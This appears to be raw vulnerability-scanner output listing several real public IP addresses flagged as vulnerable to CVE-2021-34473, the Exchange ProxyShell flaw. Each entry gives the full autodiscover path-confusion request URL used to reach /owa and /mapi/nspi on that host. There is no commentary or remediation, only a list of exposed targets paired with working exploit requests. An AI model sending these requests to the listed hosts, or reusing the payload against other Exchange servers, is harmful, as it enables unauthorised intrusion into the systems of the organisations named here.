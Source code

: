 ## 92.255.54.68  
  
---  
[CVE-2021-34473] [http] [critical] https://92.255.54.68/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://92.255.54.68/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 92.43.166.66  
  
---  
[CVE-2021-34473] [http] [critical] https://92.43.166.66/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://92.43.166.66/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 93.158.192.171  
  
---  
[CVE-2021-34473] [http] [critical] https://93.158.192.171/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://93.158.192.171/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 93.159.234.67  
  
---  
[CVE-2021-34473] [http] [critical] https://93.159.234.67/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://93.159.234.67/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 93.88.76.90  
  
---  
[CVE-2021-34473] [http] [critical] https://93.88.76.90/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://93.88.76.90/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 94.230.8.164  
  
---  
[CVE-2021-34473] [http] [critical] https://94.230.8.164/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  